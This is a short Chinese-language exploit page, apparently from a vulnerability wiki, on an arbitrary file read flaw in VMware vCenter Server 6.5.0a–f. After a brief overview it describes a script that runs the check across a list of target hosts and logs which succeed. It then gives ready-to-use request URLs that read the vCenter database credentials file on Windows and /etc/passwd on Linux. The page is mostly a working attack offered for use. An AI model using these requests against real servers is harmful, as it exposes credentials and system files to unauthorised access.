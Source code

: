 ## 漏洞概述

VMware vCenter特定版本存在任意文件读取漏洞，攻击者通过构造特定的请求，可以读取服务器上任意文件

## 影响范围

```http
VMware vCenter Server 6.5.0a- f 版本
```

## POC

```bash
urls.txt用于存放目标HOST，然后直接运行此脚本即可 python vCenter-info-leak.py
漏洞验证成功的目标存放于success.txt，连接失败的错误信息存放于error.txt中
```

## EXP

[@佩奇文库](http://wiki.peiqi.tech)

**Windows主机**

```
http://xxx.xxx.xxx.xxx/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

![](http://wikioss.peiqi.tech/vuln/vm-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

**Linux主机**

```
https://xxx.xxx.xxx.xxx/eam/vib?id=/etc/passwd
```

![](http://wikioss.peiqi.tech/vuln/vm-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)
